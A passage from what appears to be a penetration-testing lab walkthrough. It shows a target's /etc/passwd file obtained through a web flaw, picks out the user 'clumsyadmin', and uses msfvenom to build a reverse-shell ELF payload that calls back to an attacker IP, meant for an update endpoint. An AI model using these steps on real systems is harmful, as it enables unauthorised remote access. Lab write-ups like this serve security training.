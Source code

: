 ```
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh

            </div>
        </div>
    </body>
</html>
```

Nice! At the end of the file, we can see the user `clumsyadmin`. Recall that we needed a valid username to interact with the **/update** endpoint. Seeing as this appears to be the only user on the system other than root, we can next try supplying it to the endpoint.

### Remote Code Execution

We saw in the API documentation that it expects a Linux ELF executable to apply the "update". We'll start by creating our reverse shell payload.

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.118.5 LPORT=4444 -f elf -o shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell
```
